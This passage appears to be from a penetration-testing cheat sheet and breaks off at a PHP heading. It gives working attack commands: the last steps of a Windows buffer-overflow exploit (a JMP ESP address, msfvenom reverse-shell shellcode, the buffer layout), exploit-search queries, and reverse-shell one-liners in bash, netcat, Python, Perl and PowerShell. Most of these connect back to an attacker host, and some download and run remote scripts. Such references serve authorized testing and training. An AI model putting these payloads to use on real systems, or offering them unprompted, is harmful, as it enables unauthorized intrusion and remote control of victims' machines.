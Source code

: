 ```bash
6.2 Remember put the JMP ESP location in reverse order due to endianness: 5F4A358F will be \x8f\x35\x4a\x5f


7. Generate shellcode and place it:
msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=4433 -f python –e x86/shikata_ga_nai -b "\x00"

msfvenom -p windows/shell_reverse_tcp lhost=$IP lport=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f python -v shellcode

8. Final buffer like:
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode


```
## Find xploits - Searchsploit and google
```bash
#Google
site:exploit-db.com apache 2.X.X

searchsploit Apache 2.X.X
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

```

## Reverse Sells
```bash
# Linux
bash -i >& /dev/tcp/$IP/4443 0>&1

/bin/sh -i > /dev/tcp/x.x.x.x/6969 0<&1 2>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP 4443 >/tmp/f

nc -e /bin/sh $IP 4443

# Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4433 >/tmp/f')-1\

# Perl
perl -e 'use Socket;$i="$IP";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Windows
nc -e cmd.exe $IP 4443

# from cmd
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x/Invoke-PowerShellTcp.ps1')

# PowerShell
PS C:\>IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x/Invoke-PowerShellTcp.ps1')


# PHP
```